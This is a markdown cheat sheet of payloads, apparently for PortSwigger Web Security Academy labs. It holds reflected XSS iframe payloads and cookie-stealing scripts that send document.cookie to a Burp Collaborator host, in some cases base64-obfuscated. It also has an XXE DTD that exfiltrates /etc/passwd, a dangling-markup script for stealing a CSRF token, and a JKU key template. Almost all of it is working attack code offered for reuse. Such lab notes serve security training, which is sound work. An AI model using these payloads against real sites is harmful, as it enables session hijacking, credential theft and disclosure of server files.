 Simple Reflected XSS in iFrame:

`<iframe src="https://<VICTIM_SITE>.web-security-academy.net/?find=%22-alert(1)}//">`

---

Steal cookie:
- can be used in xss, web cache poisoning 

```JavaScript
<script>
fetch('https://<YOUR_BURP_COLLAB>.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

Oneliner:
`<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{method: 'POST',mode: 'no-cors',body:document.cookie});</script>`

Or

```js
var i = new Image();i.src="//<YOUR_COLLAB_ID>.burpcollaborator.net?q="+document.cookie;document.body.appendChild(i);
```

Above in iframe:
```html
<iframe src="https://<LAB_ID>.web-security-academy.net/?find=%22-var i = new Image();i.src="//<YOUR_COLLAB_ID>.burpcollaborator.net?q="+document.cookie;document.body.appendChild(i);">
```

B64 encode the js and include in iframe for character restriction bypass:

```html
<iframe src="https://<LAB_ID>.web-security-academy.net/?find=test%22-eval(atob('dmFyIGkgPSBuZXcgSW1hZ2UoKTtpLnNyYz0iLy9iZ3ZueTd4N3JiZ3p0c3RmaGV1czlrZDB4cjNtcmIuYnVycGNvbGxhYm9yYXRvci5uZXQ/cT0iK2RvY3VtZW50LmNvb2tpZTtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGkpOw=='))//">
```

As location

```html
<script> 
location="https://<your-collaborator>/?find=%22-eval.call%60%24%7Batob%60ZmV0Y2goJ2h0dHBzOi8vaGw2MXR1cGVuZDUyYzBjYWkyeG9lNGZtemQ1NHR6aG8ub2FzdGlmeS5jb20nLHttZXRob2Q6ICdQT1NUJyxtb2RlOiAnbm8tY29ycycsYm9keTpkb2N1bWVudC5jb29raWV9KQ%3D%3D%60%7D%60-%22"
</script>
```

---

XXE dtd file:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://<YOUR_BURP_COLLAB>.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```

Access in app by finding an xxe vuln and using:
```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://<YOUR_EXPLOIT_SERVER>.web-security-academy.net/test.dtd"> %xxe;]>
```

---

Script used in "*Reflected XSS protected by CSP, with dangling markup attack*" to get the victim's CSRF token

```js
<script>
location='https://<VICTIM_SITE>.web-security-academy.net/email?email=%22%3E%3Ctable%20background=%27//<YOUR_BURP_COLLAB>.burpcollaborator.net?';
</script> 
```

Take that csrf token and put it into a csrf generated request for changing email. Put that code into the exploit server and send to victim. 

---
JKU 
```json
{ "keys": [ { "kty": "RSA", "e": "AQAB", "kid": "<your-kid>", "n": "<your-n>" } ] }
```
---
